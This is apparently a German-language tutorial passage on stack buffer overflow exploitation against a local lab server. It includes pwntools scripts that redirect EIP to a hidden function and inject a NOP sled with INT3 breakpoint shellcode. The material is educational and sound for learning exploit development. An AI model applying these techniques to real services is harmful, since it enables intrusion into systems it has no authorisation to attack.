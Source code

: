 ```python
# /examples/vuln_server/exploits/call_secret.py
from pwn import *

context.update(arch='i386', os='linux')
r = remote('127.0.0.1', 4444)

r.recvuntil(b"Username: ")
r.sendline(b"bob")

r.recvuntil(b"Password: ")

offset = 76
secret_addr = p32(0x08049246)
payload = b"A" * offset + secret_addr

r.send(payload)
r.close()
```

Wird das Skript ausgeführt sehen wir auf der Serverseite:

```bash
You've reached the secret function!
```

Damit wurde der Programmfluss erfolgreich manipuliert. `EIP` zeigt auf die secret-Funktion, obwohl diese ursprünglich nie Teil des Ablaufs war. 

---
---

## SIGTRAP
Jetzt geht es darum eigenen Code in den Buffer einzufügen und auszuführen. In diesem Beispiel senden wir zehnmal den Byte-Wert `0xCC`, was der Maschinenbefehl `INT 3` ist. Das ist ein Software-Breakpoint, der das Signal SIGTRAP auslöst. Das ist nützlich, um zu prüfen, ob der Code, den wir senden, tatsächlich ausgeführt wird

Damit der `EIP` beim Overflow auf unseren Shellcode zeigt, benötigen wir eine sogenannte NOP-Rutsche (NOP Sled). `NOP` steht für "No Operation" und hat den Bytwert `0x90`. Wie der Name sagt, tut diese Instruktion "nichts", sie wartet nur einen Zyklus ab.

Wenn wir viele von den `NOPS` vor dem eigentlichen Shellcode platzieren, müssen wir nur eine Adresse eines `NOPS` nehmen, um in den  `EIP` zu schreiben. Der  `EIP` springt dann zum `NOP` und gleitet durch die restlichen NOP-Instruktionen, bis er am Shellcode angelangt ist.

### Payload senden
```python
from pwn import *

context.update(arch='i386', os='linux')
r = remote('127.0.0.1', 4444)

r.recvuntil(b"Username: ")
r.sendline(b"bob")

r.recvuntil(b"Password: ")

offset = 76

shellcode = b"\xcc" * 10                        # SIGTRAP INT 3 (breakpoint)
nop_sled = b"\x90" * (offset - len(shellcode))  # NOP (no operation)
pre_eip = nop_sled + shellcode                 

ret_add = p32(0xffffc6f0)       
payload = pre_eip + ret_add
```
